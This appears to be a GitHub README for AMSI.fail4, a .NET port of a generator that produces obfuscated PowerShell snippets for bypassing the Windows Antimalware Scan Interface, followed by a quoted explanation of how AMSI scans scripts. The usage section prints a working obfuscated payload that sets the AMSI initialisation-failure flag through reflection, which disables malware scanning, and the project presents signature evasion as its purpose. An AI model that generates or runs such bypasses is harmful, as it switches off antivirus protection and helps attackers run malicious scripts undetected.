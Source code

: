  # AMSI.fail4
Converted AMSI.fail to a .NET Framework 4 solution so that it can be called from PowerShell 5.



The snippets are randomly selected from a small pool of techniques/variations before being obfuscated. Every snippet is obfuscated at runtime/request so that no generated output share the same signatures.

Checkout https://www.amsi.fail/ for a live and working demo!

## Usage

```
PS > Add-Type -Path ".\AMSIFail4.dll"
PS > [AMSIFail.Generator]::GetPayload()
[Ref].Assembly.GetType('System.Management.Automation.'+$([SysTeM.Net.wEBUTiliTY]::HTmldEcOde('&#65;&#109;&#115;&#105;'))+'Utils').GetField(''+$([ChaR]([BytE]0x61)+[chAR]([ByTe]0x6D)+[CHaR](6095/53)+[ChaR]([ByTe]0x69))+'InitFailed',$([sySTeM.NeT.webUtilItY]::hTmLDECoDE('&#78;&#111;&#110;&#80;&#117;&#98;&#108;&#105;&#99;&#44;&#83;&#116;&#97;&#116;&#105;&#99;'))).SetValue($null,$true);
```




# What is AMSI?

As f-secure explained in one of their [excellent blog-posts:](https://blog.f-secure.com/hunting-for-amsi-bypasses/)

AMSI is an interface on which applications or services (third-party included) are able to scan a script’s content for malicious usage. If a signature in the script is registered by the AMSI antimalware service provider (Windows Defender by default), it will be blocked.
To put this into context, consider the following steps PowerShell takes to integrate with AMSI:

- When a PowerShell process is created, AMSI.DLL is loaded from disk into its address space.
- Within AMSI.DLL, there’s a function known as AmsiScanBuffer(), essentially the function used to scan a script’s content.
- In the PowerShell command prompt, any supplied content would first be sent to AmsiScanBuffer(), before any execution takes place.
- Subsequently, AmsiScanBuffer() would check with the registered anti-virus to determine if any signatures have been created.
- If the content is deemed malicious, it would be blocked.

Since AMSI relies on being loaded within the process executing the actual script, techniques to break or patch specific functions within amsi.dll are well known.
